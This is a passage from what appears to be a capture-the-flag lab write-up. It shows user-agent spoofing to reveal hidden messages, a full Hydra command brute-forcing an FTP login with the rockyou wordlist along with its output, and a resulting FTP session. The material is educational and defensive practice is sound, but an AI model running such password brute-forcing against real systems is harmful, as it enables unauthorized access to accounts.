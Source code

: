 This is what we get as the response,

```
What are you doing! Are you one of the 25 employees? If not, I going to report this incident
Dear agents,
Use your own codename as user-agent to access the site.
From,
Agent R
```

This means our hypothesis was correct. We can now add the user-agent flag in the gobuster scan (above) and run it again. However … it looks we should try exploring more names. After looking at the hint, I got the extension for my browser and tried C.

```
Attention *****,
Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!
From,
Agent R
```

Ah so here we go!

### 1.3 Port: FTP Brute-force

We will now use Hydra to brute-force our way in, using the username we got.

```
┌──(kali㉿kali)-[~]
└─$ hydra -l {username} -P /usr/share/wordlists/rockyou.txt 10.10.170.197 ftp
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-05-16 01:22:21
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.170.197:21/
[STATUS] 224.00 tries/min, 224 tries in 00:01h, 14344175 to do in 1067:17h, 16 active
[21][ftp] host: 10.10.170.197   login: {username}   password: {password}
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-05-16 01:23:37
```

Great! We can now log in ftp with the creds.

### 1.4 FTP: Exploration

```
┌──(kali㉿kali)-[/tmp]
└─$ ftp 10.10.170.197
Connected to 10.10.170.197.
220 (vsFTPd 3.0.3)
Name (10.10.170.197:kali): {username}
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> get To_agentJ.txt
...
```